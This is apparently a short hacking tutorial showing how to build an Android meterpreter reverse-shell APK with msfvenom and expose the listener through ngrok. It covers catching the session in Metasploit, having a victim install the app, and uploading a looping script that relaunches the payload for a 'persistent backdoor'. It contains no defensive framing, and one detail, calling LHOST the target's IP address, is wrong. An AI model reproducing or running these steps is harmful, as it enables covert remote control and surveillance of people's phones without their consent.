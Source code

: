 #####################      BY DEUS EX MACHINA      #####################
##### register and set up ngrok from the instructions on the site
##### go to the direcory in which ngrok is  in the type"
./ngrok tcp $port 
##### where $port is the port you want to open for using msfvenom on your pc


##### in your terminal, msfvenom terminal or metasploit terminal, type

msfvenom -p android/meterpreter/reverse_tcp LHOST=$ipaddress LPORT=$port R>payloadname.apk
##### where $ipaddress is the ip address of the target device and $lport is the port you opened on your device.
##### now go ahead to type the following

msfconsole -q \
use exploit/multi/handler \
set PAYLOAD android/meterpreter/reverse_tcp \
set LHOST 0.0.0.0 \
set LPORT $port \
run 
##### now you can go ahead to install the exploit on the device and open it and you will see a metapreter session in your terminal where you can run your commands
#next we will run a script to keep our exploit running


##### create shell script the following shell script:
#!/bin/sh \
while : \
do am start --user 0 -a android.intent.action.MAIN -n com.metasploit.stage/.MAinActivity \
sleep 10 \
done 

##### save the script on your machine and now in your meterpreter session type these

shell \
cd /sdcard \
upload ~/path 
##### where ~/path is the location of the shell script you have created on your machine
##### no we are done uploading the script to the target device, we need to run it by this command

nohup sh autostart.sh
##### our script is now running. we can now exit with:
CTRL + C \
Y 
##### now we have a persistent backdoor in the system

##### To do
- offline operation on phone and information uploaded from target on connect

#####################      KEEP IT AS RECEIVED      #####################


